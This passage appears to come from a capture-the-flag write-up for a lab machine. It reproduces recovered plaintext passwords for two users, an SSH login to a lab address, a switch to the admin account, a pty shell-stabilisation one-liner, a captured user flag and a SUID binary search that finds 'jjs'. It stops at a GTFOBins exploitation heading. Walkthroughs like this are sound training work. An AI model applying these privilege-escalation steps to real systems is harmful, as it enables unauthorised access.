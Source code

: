 <img width="412" height="208" alt="image" src="https://github.com/user-attachments/assets/a8ce1b95-9926-4ac0-a6e7-e87ed57619cc" />

<img width="657" height="87" alt="image" src="https://github.com/user-attachments/assets/f35ecebb-d8a0-4ea2-81ea-7576ac1aeec0" />

**Note:ignoring $ as it indicates the end char**

**Recovered Credentials**:
- **admin**: `t9KcS3>!0B#2`
- **mango**: `h3mXK8RhU~f{]f5H`

---

## 🚀 Privilege Escalation

### Initial Access
```bash
ssh mango@10.129.229.185
```

<img width="650" height="962" alt="image" src="https://github.com/user-attachments/assets/2f9f16c6-1317-4593-bb31-fcbbbf685deb" />


### User Enumeration
Switch to admin user:
```bash
su - admin
```

Stabilize shell:
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### User Flag
```bash
cat /home/admin/user.txt
```
**User Flag**: `79dfb8a4808a30feb7d431d5f4a36380`

<img width="571" height="283" alt="image" src="https://github.com/user-attachments/assets/82cc065d-0cfb-4189-ba6a-bdd78ef93d3e" />

### Privilege Escalation to Root

#### SUID Binary Discovery
```bash
find / -type f -user root -perm -4000 -ls 2>/dev/null
```

<img width="973" height="290" alt="image" src="https://github.com/user-attachments/assets/d998c13f-6966-4ecb-a95d-b98031c93969" />

**Key Finding**: `jjs` (JavaScript engine) with SUID permissions owned by root.

#### GTFOBins Exploitation
Using `jjs` for file write operations:
